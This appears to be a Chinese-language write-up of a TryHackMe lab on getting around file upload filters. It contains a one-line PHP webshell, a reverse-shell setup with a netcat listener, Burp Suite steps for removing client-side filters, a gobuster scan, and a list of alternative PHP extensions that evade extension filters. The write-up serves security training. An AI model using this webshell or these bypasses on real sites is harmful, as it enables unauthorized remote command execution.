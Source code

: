 # 0516文件上传绕过（client-side）

https://tryhackme.com/room/uploadvulns的Task 7

已知http://java.uploadvulns.thm（PS：需要在/etc/hosts中设置IP和域名对应）只存在client-side的文件上传过滤，目标是得到该服务器/var/www/下的flag



打开网页如下：

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/image-20220516095801615.png)

![image-20220516095801615](C:\Users\m5291\Documents\GitHub\myblog\assets\images\image-20220516095801615.png)



因为是client-side的过滤故查看源代码，发现非png类型文件不可上传

![image-20220516100025617](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516100025617.png)

整个流程是用户请求网页，然后服务器返回网页信息（html等等信息），其中包含了上面用于过滤文件类型的JavaScript代码。然后点击“select file”打开文件后，过滤代码就在用户端运行。点击上传，文件就传输到服务器。

![image-20220516102207195](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516102207195.png)

所以我们可以用两种方法来打破client-side过滤的机制：

1. 在服务器返回网页信息的时候截胡，把过滤代码删掉
2. 在过滤代码执行的时候处理，上传一个png后缀文件，但在执行结果返回前把文件类型改回来

可以用webshell或者reverse shell：

1. webshell我用的是以下代码

   ```
   <?php
   	echo system($_GET["cmd"]);
   ?>
   ```

2. reverse shell用的是kali的/usr/share/webshells/php/php-reverse-shell.php（记得改文件里的$IP为攻击机的IP）

以上的2X2种方法可以随便组合

## 方法一：删过滤代码+webshell

打开网页代理，打开burpsuite，选择response to this request来显示服务器返回的包（默认情况下不显示）。

![image-20220516105740620](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516105740620.png)

点击forward，收到返回的包，删除过滤的js代码

![image-20220516110033263](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516110033263.png)

点击forward后，正常上传文件即可

问题是不知道webshell.php在哪，所以用gobuster扫一下文件目录：

```
gobuster dir -u http://java.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

找到一个可疑的文件夹/images，访问这个文件夹：http://java.uploadvulns.thm/images果然在里面，所以只要访问

```
http://java.uploadvulns.thm/images/webshell.php?cmd=cat /var/www/flag.txt
```



## 方法二：修改文件类型+reverse shell

把php-reverse-shell.php改成shell.png(改成shell只是懒得打，但是后缀一定要改)

![image-20220516110903950](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516110903950.png)

点击“upload”，修改文件类型，点击forward成功上传![image-20220516111059415](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516111059415.png)

也是一样的用gobuster找到文件上传到何处

攻击机这边打开netcat的listener，然后访问

```
nc -lvnp 1234(端口号)
```

获得reverse shell，得到flag

![image-20220516111412502](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516111412502.png)



# 0516文件上传绕过（server-side）-文件拓展名过滤

https://tryhackme.com/room/uploadvulns的Task 8

后缀改成php5就可以上传了，以下是一些很少使用但服务器或许可以识别的Php后缀名，一个个试出来的：.php3, .php4, .php5, .php7, .phps, .php-s,  .pht .phar。

![image-20220516152831391](C:\Users\m5291\Desktop\归档系统\技术-笔记\wp\attachments\image-20220516152831391.png)

# 0516文件上传绕过（server-side）-magic numbers过滤

https://tryhackme.com/room/uploadvulns的Task 9

